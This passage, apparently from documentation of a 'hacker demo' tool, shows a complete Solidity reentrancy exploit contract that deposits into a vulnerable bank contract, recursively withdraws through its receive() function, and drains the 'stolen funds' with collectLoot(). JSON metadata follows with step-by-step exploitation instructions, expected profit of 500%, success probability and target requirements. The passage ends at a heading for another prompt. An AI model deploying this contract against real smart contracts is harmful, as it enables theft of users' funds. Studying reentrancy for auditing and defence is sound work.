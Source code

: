 ```
}

contract ReentrancyExploit {
    IVulnerableBank public target;
    uint256 public attackAmount = 1 ether;
    uint256 public attackCount;
    uint256 public constant MAX_ITERATIONS = 5;

    constructor(address _target) {
        target = IVulnerableBank(_target);
    }

    // Initiate attack
    function attack() external payable {
        require(msg.value >= attackAmount, "Need initial ETH");
        target.deposit{value: attackAmount}();
        target.withdraw(attackAmount);
    }

    // Reentrancy logic
    receive() external payable {
        if (attackCount < MAX_ITERATIONS && address(target).balance >= attackAmount) {
            attackCount++;
            target.withdraw(attackAmount);
        }
    }

    // Extract stolen funds
    function collectLoot() external {
        payable(msg.sender).transfer(address(this).balance);
    }
}
```

METADATA (JSON):
{
  "exploitation_steps": [
    "Deploy ReentrancyExploit with target address",
    "Call attack() with 1 ETH",
    "receive() triggers 5 recursive withdrawals",
    "Total extracted: 6 ETH (1 + 5 reentrant calls)",
    "Call collectLoot() to transfer stolen funds"
  ],
  "expected_results": {
    "initial_investment": "1 ETH",
    "total_extracted": "6 ETH",
    "profit": "500%",
    "success_probability": "98%",
    "execution_time": "< 30 seconds",
    "gas_cost": "~200,000 gas"
  },
  "risk_factors": [
    "Target must have ≥ 6 ETH balance",
    "No reentrancy guard present",
    "Gas limit sufficient for 5 iterations"
  ]
}
```

---

### **Prompt 3: Multi-Factor Prioritization** (Phase 3.5)

**Location:** `demo/hacker_demo.py:1175-1268`
```